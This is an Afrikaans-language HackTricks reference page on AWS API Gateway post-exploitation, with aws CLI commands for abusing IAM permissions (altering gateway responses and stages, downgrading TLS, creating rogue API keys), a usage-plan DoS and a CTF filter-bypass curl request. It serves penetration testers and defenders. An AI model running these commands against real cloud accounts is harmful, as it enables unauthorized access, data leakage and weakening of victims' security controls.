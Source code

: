 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Vir meer inligting, kyk na:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Toegang tot onblootgestelde APIs

Jy kan 'n eindpunt skep by [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) met die diens `com.amazonaws.us-east-1.execute-api`, die eindpunt blootstel in 'n netwerk waar jy toegang het (potensieel via 'n EC2-masjien) en 'n sekuriteitsgroep toewys wat alle verbindings toelaat.\
Dan, vanaf die EC2-masjien sal jy die eindpunt kan toegang en dus die gateway API kan oproep wat voorheen nie blootgestel was nie.

### Omseil Versoekliggaam deurvoer

Hierdie tegniek is gevind in [**hierdie CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Soos aangedui in die [**AWS dokumentasie**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) in die `PassthroughBehavior` afdeling, standaard, die waarde **`WHEN_NO_MATCH`** , wanneer die **Content-Type** kop van die versoek nagegaan word, sal die versoek na die agterkant deurgee sonder transformasie.

Daarom, in die CTF het die API Gateway 'n integrasie sjabloon gehad wat **verhoed het dat die vlag uitgefiltreer word** in 'n reaksie wanneer 'n versoek gestuur is met `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Maar, om 'n versoek te stuur met **`Content-type: text/json`** sou daardie filter voorkom.&#x20;

Uiteindelik, aangesien die API Gateway slegs `Get` en `Options` toegelaat het, was dit moontlik om 'n arbitrêre dynamoDB-navraag te stuur sonder enige beperking deur 'n POST-versoek te stuur met die navraag in die liggaam en die gebruik van die opskrif `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

In die **Enumerasie** afdeling kan jy sien hoe om die **gebruikplan** van die sleutels te **verkry**. As jy die sleutel het en dit is **beperk** tot X gebruike **per maand**, kan jy dit **net gebruik en 'n DoS veroorsaak**.

Die **API Sleutel** moet net **ingesluit** word binne 'n **HTTP header** genaamd **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateGatewayResponse` en `apigateway:CreateDeployment` kan **'n bestaande Gateway Response wysig om pasgemaakte headers of respons templates in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateStage` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-stadium wysig om verkeer na 'n ander stadium te herlei of die kasinstellings verander om ongemagtigde toegang tot gekasde data te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Ongeoorloofde toegang tot gekasde data, ontwrigting of onderskepping van API-verkeer.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:PutMethodResponse` en `apigateway:CreateDeployment` kan **die metode-reaksie van 'n bestaande API Gateway REST API-metode wysig om pasgemaakte koptekste of reaksiesjablone in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateRestApi` en `apigateway:CreateDeployment` kan **die API Gateway REST API-instellings wysig om logging te deaktiveer of die minimum TLS-weergawe te verander, wat moontlik die sekuriteit van die API kan verswak**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Verswakking van die sekuriteit van die API, wat moontlik ongemagtigde toegang of blootstelling van sensitiewe inligting kan toelaat.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

'n Aanvaller met toestemmings `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, en `apigateway:CreateUsagePlanKey` kan **nuwe API-sleutels skep, dit met gebruiksplanne assosieer, en dan hierdie sleutels gebruik vir ongemagtigde toegang tot APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potensiële Impak**: Ongeoorloofde toegang tot API-hulpbronne, omseiling van sekuriteitskontroles.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks geadverteer wil sien** of **HackTricks in PDF wil aflaai** Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks handelsware**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
